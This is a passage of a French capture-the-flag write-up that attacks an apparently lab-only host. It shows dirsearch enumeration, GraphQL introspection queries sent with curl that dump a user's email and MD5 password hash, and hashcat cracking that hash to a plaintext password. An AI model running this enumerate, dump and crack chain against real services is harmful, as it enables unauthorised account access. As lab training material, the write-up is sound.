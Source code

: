 On découvre une API graphql sur le port 3000 à l'aide **dirsearch**. A l'aide de **ChatGPT**, on comprend comment effectuer des requêtes afin de comprendre la structure des données disponibles et de récupérer des informations.

On trouve finalement un user/password après quelques requetes :
```bash
$ dirsearch -u http://10.10.10.121:3000/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://10.10.10.121:3000/

[00:50:04] Scanning: 
[00:50:13] 400 -    18B - /graphql
[00:50:13] 400 -    18B - /graphql/
[00:50:13] 400 -    18B - /graphql/console
[00:50:13] 400 -    18B - /graphql/schema.yaml
[00:50:13] 400 -    18B - /graphql/graphql
[00:50:13] 400 -    18B - /graphql/schema.json
[00:50:13] 400 -    18B - /graphql/schema.xml

Task Completed

$ curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __typename }"}'

{"data":{"__typename":"Query"}}

$ curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"user"}]},{"name":"User","fields":[{"name":"username"},{"name":"password"}]},{"name":"String","fields":null},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"Boolean","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}

$  curl -X POST http://10.10.10.121:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ user { username password } }"}'

{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```
Avec **hashcat**, on reussi à récupérer le mot de passe suivant : `godhelpmeplz`
```bash
hashcat -m 0 ./hash.txt ~/wordlists/rockyou.txt --show
5d3c93182bb20f07b994a7f617e99cff:godhelpmeplz
```
